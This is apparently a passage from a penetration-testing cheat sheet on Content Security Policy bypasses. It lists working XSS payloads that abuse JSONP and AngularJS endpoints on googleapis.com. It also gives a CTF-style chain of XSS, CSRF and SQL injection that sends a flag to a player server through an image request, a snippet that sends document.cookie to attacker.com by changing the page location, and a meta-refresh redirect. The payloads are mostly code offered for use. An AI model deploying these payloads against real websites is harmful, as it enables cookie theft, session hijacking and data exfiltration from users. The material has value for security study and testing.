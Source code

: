 Working payloads:
```javascript
<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

<!-- no longer working -->
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)">
```
Other JSONP arbitrary execution endpoints can be found in [here](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)

-----

**'unsafe-inline'; img-src *; via XSS***
```html
default-src 'self' 'unsafe-inline'; img-src *;
```
'unsafe-inline' means that you can execute any script inside the code (XSS can execute code) and img-src * means that you can use in the webpage any image from any resource.
You can bypass this CSP by exfiltrating the data via images (in this occasion the XSS abuses a CSRF where a page accessible by the bot contains an SQLi, and extract the flag via an image):
```javascript
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```

-----

## CSP Exfiltration Bypasses
If there is a strict CSP that doesn't allow you to interact with external servers, there are some things you can always do to exfiltrate the information.

**Location**

You could just update the location to send to the attacker's server the secret information:
```javascript
var sessionid = document.cookie.split('=')[1]+"."; 
document.location = "https://attacker.com/?" + sessionid;
```

**Meta tag**

You could redirect by injecting a meta tag (this is just a redirect, this won't leak content)
```javascript
<meta http-equiv="refresh" content="1; http://attacker.com">
```














